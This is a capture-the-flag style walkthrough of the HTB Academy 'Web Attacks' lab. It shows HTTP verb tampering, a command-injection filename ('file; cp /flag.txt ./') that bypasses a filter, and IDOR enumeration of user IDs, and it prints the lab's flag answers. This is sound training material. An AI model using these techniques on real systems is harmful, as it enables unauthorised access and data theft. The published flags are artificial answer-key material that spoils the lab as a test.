Welcome to **Part 30** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Web Attacks** (Tier II • Medium • Offensive). We break down the underlying mechanics of HTTP request smuggling, Cross-Site Request Forgery (CSRF), Insecure Direct Object References (IDOR), XML External Entity (XXE), and parameter tampering, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-29-file-upload-attacks/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 29: File Upload Attacks & Web Shell Weaponization</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 30 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-31-session-security/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 31: Session Security & Token Manipulation</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Web Attacks` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/134](https://academy.hackthebox.com/module/134) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 30 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **IDOR Vulnerabilities**: Modifies numeric and GUID references in request parameters to access and modify unauthorized user resources.
* **CSRF Exploitation**: Crafts weaponized HTML forms that trick authenticated victim browsers into executing unwanted state-changing actions.
* **Request Smuggling**: Exploits discrepancies in frontend and backend HTTP request length handling (`Content-Length` vs `Transfer-Encoding`).
* **Parameter Tampering**: Manipulates hidden form fields, cookies, and JSON parameters to bypass business logic and access control gates.
* **Comprehensive Remediation**: Implements robust anti-CSRF tokens, SameSite cookie attributes, and indirect reference maps.

## Executive Summary & Assessment Scope

Web application vulnerabilities encompass a diverse spectrum of logic, architectural, and protocol-level flaws that can compromise user sessions and backend infrastructure.

This module provides a detailed technical exploration of essential web attacks. We analyze IDOR data exposure, craft CSRF exploitation chains, dissect HTTP request smuggling mechanics, and solve all lab challenges with complete flag solutions.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Web Attacks

> **Lab Question (Page 1)**: Try to use what you learned in this section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.
>
> **Flag / Answer**: `HTB{4lw4y5_c0v3r_4ll_v3rb5}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use burpsuite.
We can access burpsuite via either entering
burpsuite
in the pwnbox terminal, or opening it with the icon:

We go to burpsuite proxy, and open the browser, settings the interceptor off:
In the browser url, we go to the website via entering:
http://<target-IP>:<target-port>


This is the website.


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


*_Figure 1.2 — Lab execution and output verification (Page 1)_*


### 'Reset'

Opening notes.txt wont get us everywhere, and when attempting to select
'Reset':

We are requested to enter credentials

So lets set the interceptor on, and click on 'Reset' agaain:

And this is the captured http request, it is a GET request.
Lets change the 'GET' to 'OPTIONS' and see what happens:

We get to a blank page:


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


*_Figure 2.3 — Lab execution and output verification (Page 2)_*


### Lets get again to the main page

Maybe it means the files were deleted?
Lets get again to the main page:

Here is the flag.

* note – the 'OPTIONS' method describes the communication options for the
target resource. *


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


### Bypassing Security Filters

> **Lab Question (Page 4)**: To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./
>
> **Flag / Answer**: `HTB{b3_v3rb_c0n51573n7}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from where we left off from previous question (different
session though so the IP and port will be different here) – we can type file we
wish to add, and then type enter to add it to the system. here is an example:

Lets try to add something a little more 'sophisticated' – lets try to add
'yigritte;':

Malicious request Denied! We can not add a file with ';' character in it.
Lets try to add it again, this time with interceptor on:


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


### And select 'Change request method'

Now, we right click on the request

And select 'Change request method':


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


*_Figure 5.3 — Lab execution and output verification (Page 5)_*


### Lets enter 'forward and see the result

The method is now POST
*IMPORTANT! Do not change the method from get to post manually, as the
parameter location also has to be re-set from directly in the URL, to the request
body. (as POST method doesn't supports url parameter (i.e '?para=value')) –
changing the method manually WILL NOT work. *
Lets enter 'forward and see the result:

File added!
We bypassed the 'special characters' security mechanism and can proceed with
command injection.

The next 'file' will be 'file; cp /flag.txt ./':

Doing the same procedure:


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


### Here is the flag – lets open it

Forward..

Here is the flag – lets open it:


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


*_Figure 7.3 — Lab execution and output verification (Page 7)_*


### Mass IDOR Enumeration

> **Lab Question (Page 8)**: Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.
>
> **Flag / Answer**: `HTB{4ll_f1l35_4r3_m1n3}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets enter the target website in a burpsuite browser:
http://<target-IP>:<target-port>


It is a employee management website. Lets select documents,while the
interceptor on:


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


### that request

We see the parameter 'uid=1' being passed in the POST request. Lets forward
that request:


We will get Invoice '1_09_2021' and Report '1_10_2021' . There will be nothing
interesting in those files.

Lets try to intercept the request again, but this time we will set 'uid=2', to get
the documents of another employee:

It will get us to a page that seemingly looks identical but with the Invoice
'2_09_2021' and Report '2_10_2021' (instead of 1). (no screenshots as the
page is absolutely identical to 'uid=1' equivalent. There is no new value in such
a screenshot).
Now, inspecting all the 'uid' of values 3-20 will be tedious. So we will automate.
There are 2 methods of possible automation processes.


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


### generated using the bash script

Method 1: we will use burpsuite intruder (for more information about the
burpsuite intruder you can refer to the 'Using Web Proxies' module's writeup –
section of 'Burp Intruder' – page 12).
Either way for our purpose we will select the '§BUZZ§' on 'uid' parameter:

And the wordlist will be a file 'ids.txt' containing the numbers 1 to 20,
generated using the bash script:
for i in {1..20}; do
```bash
echo $i >> ids.txt;
```
done


And when ready, we start the attack:


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*

